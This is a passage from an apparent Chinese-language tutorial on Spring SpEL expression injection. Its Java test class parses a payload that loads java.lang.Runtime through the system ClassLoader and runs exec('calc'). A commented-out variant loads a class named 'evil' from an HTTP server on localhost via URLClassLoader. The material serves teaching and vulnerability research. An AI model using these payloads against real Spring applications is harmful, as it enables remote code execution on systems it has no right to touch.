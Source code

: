 然后起个http服务，最后运行就可以加载恶意类了。  
![image.png](assets/1698895942-0456aa594e86181144dd7ac5565ef3ee.png)

## AppClassloader

这种其实大差不差。获取ClassLoader去加载本地的类。

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class SpelVulTest {
    public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException {
        //String cmdStr = "new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").getConstructors()[0].newInstance()";
        String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
